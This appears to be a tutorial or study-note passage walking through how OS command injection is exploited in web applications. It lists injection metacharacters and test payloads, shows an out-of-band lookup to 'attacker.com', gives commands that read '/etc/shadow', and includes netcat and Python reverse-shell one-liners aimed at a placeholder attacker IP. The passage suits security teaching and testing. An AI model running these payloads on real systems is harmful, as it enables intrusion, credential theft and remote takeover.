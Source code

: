 - **Step-by-step walkthrough of how it’s exploited**
    
    1. **Identify Vulnerable Input Point:** Find a web form field, URL parameter, or API request body parameter where the application might be executing a system command with user-supplied input. Common examples include:
        
        - A "ping" utility that takes an IP address.
            
        - A "file conversion" service that takes a filename.
            
        - A "system status" page that runs a `grep` command.
            
    2. **Test for Command Injection:**
        
        - Inject common shell metacharacters to break out of the original command and append a simple test command.
            
            - _Linux:_ `&`, `|`, `&&`, `||`, `;`, `` ` ``, `$(...)`
                
            - _Windows:_ `&`, `|`, `&&`, `||`, `&`, `|`
                
        - _Example Payload:_ If the application runs `ping -c 4 <user_input>`, try injecting `127.0.0.1; ls -la`.
            
        - Observe the response:
            
            - **Output-based:** Does the `ls -la` output appear in the web response?
                
            - **Error-based:** Does a system error message reveal the command output?
                
            - **Blind (Time-based):** Inject a time-delay command (e.g., `127.0.0.1; sleep 5`) and observe if the response is delayed.
                
            - **Blind (Out-of-band):** Inject a command that triggers a DNS lookup to an attacker-controlled domain (e.g., `127.0.0.1; nslookup attacker.com`) and monitor DNS logs.
                
    3. **Command Execution & Information Gathering:**
        
        - Once confirmed, execute commands to gather information about the server:
            
            - `whoami` (current user)
                
            - `id` (user and group IDs)
                
            - `ifconfig` / `ip a` (network interfaces)
                
            - `ls -la /` (list root directory)
                
            - `cat /etc/passwd` / `cat /etc/shadow` (Linux user information)
                
            - `ipconfig /all` (Windows network info)
                
            - `type C:\Windows\System32\drivers\etc\hosts` (Windows hosts file)
                
    4. **Establish Persistence/Reverse Shell:**
        
        - Attempt to download and execute a reverse shell script from an attacker-controlled server.
            
        - Use commands to establish a direct reverse shell connection back to the attacker's machine (e.g., `nc -e /bin/sh attacker_ip port`, `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`).
            